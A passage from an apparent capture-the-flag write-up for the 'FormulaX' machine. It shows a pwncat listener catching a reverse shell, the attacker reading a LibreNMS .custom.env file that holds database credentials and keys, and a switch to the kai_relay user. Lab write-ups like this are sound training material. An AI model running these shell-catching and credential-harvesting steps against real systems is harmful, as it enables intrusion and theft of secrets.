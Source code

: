 ![Writeup-12.png](/assets/images/Machines/FormulaX/Writeup-12.png)

```bash
└─$ pwncat -lp 4444
[14:56:09] Welcome to pwncat 🐈!                                           __main__.py:164
[14:56:40] received connection from 10.10.11.6:45546                            bind.py:84
[14:56:48] 10.10.11.6:45546: registered new host w/ db                      manager.py:957
(local) pwncat$
(remote) librenms@formulax:/opt/librenms$ whoami
librenms
(remote) librenms@formulax:/opt/librenms$ ls *env*
ls: cannot access '*env*': No such file or directory
(remote) librenms@formulax:/opt/librenms$ ls .*env*
.custom.env  .env.example  .env.travis
(remote) librenms@formulax:/opt/librenms$ cat .custom.env
APP_KEY=base64:jRoDTOFGZEO08+68w7EzYPp8a7KZCNk+4Fhh97lnCEk=

DB_HOST=localhost
DB_DATABASE=librenms
DB_USERNAME=kai_relay
DB_PASSWORD=mychemicalformulaX

#APP_URL=
NODE_ID=648b260eb18d2
VAPID_PUBLIC_KEY=BDhe6thQfwA7elEUvyMPh9CEtrWZM1ySaMMIaB10DsIhGeQ8Iks8kL6uLtjMsHe61-ZCC6f6XgPVt7O6liSqpvg
VAPID_PRIVATE_KEY=chr9zlPVQT8NsYgDGeVFda-AiD0UWIY6OW-jStiwmTQ
```

## Privilege Escalation (kai_relay)

```bash
su - kai_relay
```

## Privilege Escalation (root)
